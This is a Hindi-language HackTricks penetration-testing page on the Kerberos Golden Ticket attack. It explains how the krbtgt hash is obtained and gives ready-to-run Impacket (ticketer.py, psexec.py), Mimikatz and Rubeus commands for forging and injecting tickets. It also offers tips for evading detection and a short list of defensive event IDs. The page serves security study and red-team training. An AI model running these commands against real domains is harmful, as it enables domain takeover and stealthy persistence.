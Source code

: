 # सोने का टिकट

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का पालन करें**.
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा **PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## सोने का टिकट

**एक सोने का टिकट** हमला **किसी भी उपयोगकर्ता का अनुकरण करते हुए एक वैध टिकट ग्रांटिंग टिकट (TGT) का निर्माण** पर आधारित होता है जिसमें **एक्टिव डायरेक्टरी (AD) krbtgt खाते के NTLM हैश का उपयोग** किया जाता है। यह तकनीक विशेष रूप से फायदेमंद है क्योंकि यह **अनुकृत उपयोगकर्ता के रूप में डोमेन के किसी भी सेवा या मशीन तक पहुंचने की सुविधा प्रदान करता है**। यह याद रखना महत्वपूर्ण है कि **krbtgt खाते के क्रेडेंशियल्स स्वचालित रूप से अपडेट नहीं होते हैं**।

**krbtgt खाते के NTLM हैश** को प्राप्त करने के लिए विभिन्न तरीके अपनाए जा सकते हैं। इसे **लोकल सुरक्षा प्राधिकरण उपस्थिति सेवा (LSASS) प्रक्रिया** से निकाला जा सकता है या डोमेन के किसी भी डोमेन कंट्रोलर (DC) पर स्थित **NT निर्देशिका सेवाएं (NTDS.dit) फ़ाइल** से। इसके अतिरिक्त, **DCsync हमला चलाना** इस NTLM हैश को प्राप्त करने के लिए एक और रणनीति है, जिसे **Mimikatz में lsadump::dcsync मॉड्यूल** या Impacket द्वारा **secretsdump.py स्क्रिप्ट** का उपयोग करके किया जा सकता है। इसे ध्यान में रखना महत्वपूर्ण है कि इन ऑपरेशनों को आगे बढ़ाने के लिए **डोमेन व्यवस्थापक विशेषाधिकार या एक समान स्तर की पहुंच आम तौर पर आवश्यक होती है**।

हालांकि NTLM हैश इस उद्देश्य के लिए एक व्यावहारिक विधि के रूप में काम करता है, इसे **संचालन सुरक्षा कारणों** के लिए **उन्नत एन्क्रिप्शन मानक (AES) केरबेरोस कुंजियों (AES128 और AES256) का उपयोग करके टिकट जाली बनाने की सलाह दी जाती है**।

{% code title="लिनक्स से" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="From Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**एक बार** जब आपके पास **गोल्डन टिकट इंजेक्ट** हो जाए, तो आप साझा फ़ाइलों **(C$)** तक पहुँच सकते हैं, और सेवाएं और WMI को निष्पादित कर सकते हैं, इसलिए आप **psexec** या **wmiexec** का उपयोग करके शैल प्राप्त कर सकते हैं (ऐसा लगता है कि आप विनर्म के माध्यम से शैल प्राप्त नहीं कर सकते हैं)।

### सामान्य पकड़ों को छलना

गोल्डन टिकट को पकड़ने के सबसे आम तरीके हैं **तार पर करबेरोस ट्रैफ़िक की जांच** करके। डिफ़ॉल्ट रूप से, Mimikatz **TGT को 10 वर्षों के लिए साइन करता है**, जो इसके साथ किए गए आगामी TGS अनुरोधों में विचित्र रूप से प्रकट होगा।

`आयु : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

आरंभ ऑफसेट, अवधि और अधिकतम नवीकरणों को नियंत्रित करने के लिए `/startoffset`, `/endin` और `/renewmax` पैरामीटर का उपयोग करें (सभी मिनट में)।
```
Get-DomainPolicy | select -expand KerberosPolicy
```
```
दुर्भाग्य से, TGT का जीवनकाल 4769 में लॉग नहीं किया गया है, इसलिए आप विंडोज इवेंट लॉग्स में इस जानकारी को नहीं पाएंगे। हालांकि, आप कर सकते हैं **4768 के पूर्व 4769 देखना**। एक TGT के बिना एक TGS का अनुरोध करना **संभव नहीं है**, और अगर किसी TGT के जारी होने का कोई रिकॉर्ड नहीं है, तो हम यह समझ सकते हैं कि यह ऑफलाइन जाली बनाया गया था।

इस डिटेक्शन की जांच को **छलांग देने** के लिए डायमंड टिकट्स की जांच करें:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### सुरक्षा उपाय

* 4624: खाता लॉगऑन
* 4672: व्यवस्थापक लॉगऑन
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

रक्षकों के लिए अन्य छोटे तरीके हैं **4769 के लिए चेतावनी देना संवेदनशील उपयोगकर्ताओं** जैसे कि डिफ़ॉल्ट डोमेन प्रशासक खाता।

## संदर्भ
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets] (https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)
```
